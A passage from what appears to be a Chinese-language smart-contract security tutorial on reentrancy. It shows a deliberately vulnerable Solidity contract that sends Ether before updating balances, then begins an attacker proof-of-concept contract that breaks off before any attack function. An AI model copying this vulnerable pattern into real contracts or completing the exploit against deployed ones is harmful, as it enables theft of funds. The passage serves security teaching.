 ﻿### 1. 竞态条件引发​

以太坊智能合约的特点之一是能够调用和利用其他外部合约的代码，调用外部合约主要存在的危险就是外部合约可以接管控制流，并对调用函数不期望的数据进行更改。这类漏洞有多种形式，包括重入和交易顺序依赖等。

#### 1.1 重入漏洞(Reentrancy)

- 问题描述

​ 合约通常也处理 Ether，因此通常会将 Ether发送给各种外部用户地址。调用外部合约或将以太网发送到地址的操作需要合约提交外部调用。这些外部调用可能被攻击者劫持，迫使合约执行进一步的代码（即通过回退函数），包括回调自身。因此代码执行"重新进入"合约。这种攻击被用于臭名昭著的DAO 攻击。

- 案例

  ```{.solidity}
  pragma solidity ^0.4.22;
  
  contract Reentrancy {
      mapping(address => uint256) public balances;
  
      event WithdrawFunds(address _to,uint256 _value);
  
      function depositFunds() public payable {
          balances[msg.sender] += msg.value;
      }
  
      function showbalance() public view returns (uint256 ){
          return address(this).balance;
      }
  
      function withdrawFunds (uint256 _weiToWithdraw) public {
          require(balances[msg.sender] >= _weiToWithdraw);
          require(msg.sender.call.value(_weiToWithdraw)());
          balances[msg.sender] -= _weiToWithdraw;
          emit WithdrawFunds(msg.sender,_weiToWithdraw);
      }
  }
  ```

  该合约有两个函数：depositFunds()和withdrawFunds()，depositFunds()的功能是增加msg.sender的余额，withdrawFunds()的功能是取出msg.sender指定的数值为\_weiToWithdraw的Ether。

  现在，一个攻击者创建了下列合约

  ```{.solidity}
  pragma solidity ^0.4.22;
  
  //设置原合约接口，方便回调
  interface Reentrancy {
      function depositFunds() external payable;
      function withdrawFunds (uint256 _weiToWithdraw) external;
  }
  //漏洞证明合约
  contract POC {
      address owner;
    Reentrancy reInstance;
  
      constructor() public {
          owner = msg.sender;
      }
  
    modifier onlyOwner() {
          require(owner==msg.sender);
          _;
    }
    //指向原合约地址
    function setInstance(address addr) public onlyOwner {
          reInstance = Reentrancy(addr);
    }
  ```